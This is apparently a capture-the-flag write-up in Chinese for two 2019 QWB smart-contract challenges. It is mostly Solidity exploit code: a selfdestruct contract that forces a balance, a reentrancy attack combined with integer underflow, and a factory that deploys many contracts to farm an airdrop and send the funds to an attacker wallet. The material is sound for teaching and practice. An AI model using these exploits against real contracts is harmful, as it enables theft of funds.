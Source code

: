 # 第三届强网杯babybank&babybet

[babybank](https://github.com/beafb1b1/challenges/tree/master/qwb/2019_crypto_babybank)

[babybet](https://github.com/beafb1b1/challenges/tree/master/qwb/2019_crypto_babybet)

## babybank

强制转账余额后，重入攻击+整形溢出，最后payforflag

```js
contract transfer_force{
    
    address owner;
    
    function () payable {
    }
    
    constructor()public{
        owner = msg.sender;
    }
    
    modifier onlyOwner(){
        require(msg.sender == owner);
        _;
    }
    
    function kill(address to) public onlyOwner {
        selfdestruct(to);
    }
}

contract reentrancy{
    address bb;
    uint have_withdraw;
    
    function set_bb(address target)
    {
        bb=target;
    }
    
    function withdraw(uint amount){
        babybank(bb).withdraw(amount);
    }
    
    function () payable {
        if (have_withdraw==0){
            have_withdraw=1;
            babybank(bb).withdraw(2);
        }
    }
    
    function getflag(string md5ofteamtoken,string b64email) public{
        babybank(bb).payforflag(md5ofteamtoken,b64email);
    }
}
```

## babybet

薅羊毛

```js
contract father {
    function father() payable {}
    babybet_attack son;
    function attack(uint256 times) public {
        for(uint i=0;i<times;i++){
            son = new babybet_attack();
        }
    }
    function () payable {
    }
}

contract babybet_attack{
    address bbb=0x5d7aacdf02186810d754cf24d2496b3bdf30d75b;
    address mywallet=0xdAA45B7958aF6B14dc8BFF097AddC449Bc39fB55;
    constructor() public{
        babybet(bbb).profit();
        babybet(bbb).bet(0);
        uint amount=babybet(bbb).balance(address(this));
        if (amount>500){
        babybet(bbb).transferbalance(mywallet,1000);}
    }
}
```